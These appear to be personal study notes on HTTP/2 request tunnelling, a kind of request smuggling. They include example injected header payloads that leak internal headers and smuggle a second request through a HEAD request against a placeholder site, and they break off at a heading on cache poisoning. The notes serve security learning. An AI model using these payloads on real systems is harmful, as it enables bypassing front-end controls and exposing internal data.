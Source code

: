 You can send a single request that will elicit two responses from the back-end. This potentially enables you to hide a request and its matching response from the front-end altogether. 

 Request tunnelling is possible with both HTTP/1 and HTTP/2 but is considerably more difficult to detect in HTTP/1-only environments. Due to the way persistent (keep-alive) connections work in HTTP/1, even if you do receive two responses, this doesn't necessarily confirm that the request was successfully smuggled.

In HTTP/2 on the other hand, each "stream" should only ever contain a single request and response. If you receive an HTTP/2 response with what appears to be an HTTP/1 response in the body, you can be confident that you've successfully tunneled a second request. 

# Leaking internal headers via HTTP/2 request tunnelling

```
:method 	    POST
:path 	        /comment
:authority 	    vulnerable-website.com
content-type 	application/x-www-form-urlencoded
foo 	        bar\r\n
                Content-Length: 200\r\n
                \r\n
                comment=\r\n
                \r\n

x=1 
```
 The front-end sees everything we've injected as part of a header, so adds any new headers after the trailing comment= string
```http
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

comment=X-Internal-Header: secretContent-Length: 3
x=1
```
# Blind tunneling
 Some front-end servers read in all the data they receive from the back-end. 
This means that if you successfully tunnel a request, they will potentially forward both responses to the client, with the response to the tunnelled request nested inside the body of the main response.  

iOther front-end servers only read in the number of bytes specified in the Content-Length header of the response, so only the first response is forwarded to the client. 

# Non-blind request tunnelling using HEAD
Responses to HEAD requests often contain a content-length header even though they don't have a body of their own. This normally refers to the length of the resource that would be returned by a GET request to the same endpoint. Some front-end servers fail to account for this and attempt to read in the number of bytes specified in the header regardless. 
Request:
```
:method 	HEAD
:path 	    /example
:authority 	vulnerable-website.com
foo 	    bar\r\n
            \r\n
            GET /tunnelled HTTP/1.1\r\n
            Host: vulnerable-website.com\r\n
            X: x
```
Response:
```
:status 	    200
content-type 	text/html
content-length 	131

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 4286

<!DOCTYPE html>
<h1>Tunnelled</h1>
<p>This is a tunnelled respo
```
# Web cache poisoning via HTTP/2 request tunnelling
#to-be-continued 